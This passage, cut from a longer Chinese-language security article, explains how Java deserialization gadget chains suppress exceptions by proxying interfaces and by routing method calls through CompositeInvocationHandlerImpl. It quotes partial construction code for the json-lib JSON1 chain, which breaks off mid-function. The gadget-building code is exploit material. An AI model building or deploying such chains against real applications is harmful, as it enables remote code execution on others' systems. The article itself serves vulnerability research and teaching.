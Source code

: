 为了处理这个问题使用了`JdkDynamicAopProxy`代理`Templates`接口创建代理类，代理类在通过反射获取方法时只能获取到被代理接口中定义的方法，如此便可以屏蔽掉`getStylesheetDOM`方法，这便是标记代码块[2]处代码的意义。  
### 方法调用分流
如上一节通过代理接口屏蔽无关方法调用从而屏蔽异常的方式有严格的限制，需要满足恰好被代理接口定义了我们需要的目标方法且没有定义一些其他的可能对结果产生干扰的方法，这种情况往往可遇不可求。本节将提供另外一种对方法调用异常进行屏蔽的方法。   
`CompositeInvocationHandlerImpl`能够对方法调用异常进行屏蔽的核心在于其能根据方法名对方法的调用进行分流，对于在调用过程中会导致异常的方法通过`AnnotationInvocationHandler`直接替换掉响应结果即可屏蔽可能导致异常的过程调用。  
具体的实现方法是通过将可能导致异常的方法所属类作为`key`，将`AnnotationInvocationHandler`作为`value`放到一个`Map`中，当方法调用时首先尝试从这个`Map`中获取对应的`handler`再使用该`handler`进行实际的方法调用。  
```java
public Object invoke( Object proxy, Method method, Object[] args )
        throws Throwable
    {
        Class cls = method.getDeclaringClass() ;
        InvocationHandler handler =
            (InvocationHandler)classToInvocationHandler.get( cls ) ;
        if (handler == null) {
            if (defaultHandler != null)
                handler = defaultHandler ;
            else {
                ORBUtilSystemException wrapper = ORBUtilSystemException.get(
                    CORBALogDomains.UTIL ) ;
                throw wrapper.noInvocationHandler( "\"" + method.toString() +
                    "\"" ) ;
            }
        }
        return handler.invoke( proxy, method, args ) ;
    }
```
`json-lib`同样是用来处理`JSON`字符串的`Java`工具包，其中也存在一条反序列化利用链，这条链被成为`JSON1`。
在`JSON1`链中便使用了方法调用分流方式来屏蔽`getCompositeType`方法调用导致的异常。  
```java
public static Map makeCallerChain(Object payload, Class... ifaces) throws OpenDataException, NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException, Exception, ClassNotFoundException {
        CompositeType rt = new CompositeType("a", "b", new String[]{"a"}, new String[]{"a"}, new OpenType[]{SimpleType.INTEGER});
        TabularType tt = new TabularType("a", "b", rt, new String[]{"a"});
        TabularDataSupport t1 = new TabularDataSupport(tt);
        TabularDataSupport t2 = new TabularDataSupport(tt);
        AdvisedSupport as = new AdvisedSupport();
        as.setTarget(payload);
		// [1]
        InvocationHandler delegateInvocationHandler = (InvocationHandler)Reflections.newInstance("org.springframework.aop.framework.JdkDynamicAopProxy", new Object[]{as});
		// [2]
        InvocationHandler cdsInvocationHandler = Gadgets.createMemoizedInvocationHandler(Gadgets.createMap("getCompositeType", rt));
		// [3]
        InvocationHandler invocationHandler = (InvocationHandler)Reflections.newInstance("com.sun.corba.se.spi.orbutil.proxy.CompositeInvocationHandlerImpl", new Object[0]);
        ((Map)Reflections.getFieldValue(invocationHandler, "classToInvocationHandler")).put(CompositeData.class, cdsInvocationHandler);
        Reflections.setFieldValue(invocationHandler, "defaultHandler", delegateInvocationHandler);
		// [4]
        CompositeData cdsProxy = (CompositeData)Gadgets.createProxy(invocationHandler, CompositeData.class, ifaces);
        JSONObject jo = new JSONObject();
        Map m = new HashMap();
        m.put("t", cdsProxy);
		// [5]
        Reflections.setFieldValue(jo, "properties", m);
        Reflections.setFieldValue(jo, "properties", m);
```